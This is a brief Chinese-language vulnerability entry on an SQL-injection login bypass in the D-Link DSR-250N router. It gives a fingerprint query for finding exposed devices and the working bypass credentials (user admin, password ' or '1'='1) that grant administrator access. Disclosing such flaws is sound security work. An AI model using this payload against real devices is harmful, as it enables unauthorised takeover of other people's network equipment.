

# D-Link DSR-250N SQL注入漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

<a-checkbox checked>D-Link DSR-250N</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DSR-250N"</a-checkbox></br>

## 漏洞复现

登录页面如下





```plain
user: admin
pass: ' or '1'='1
```

成功登录后台


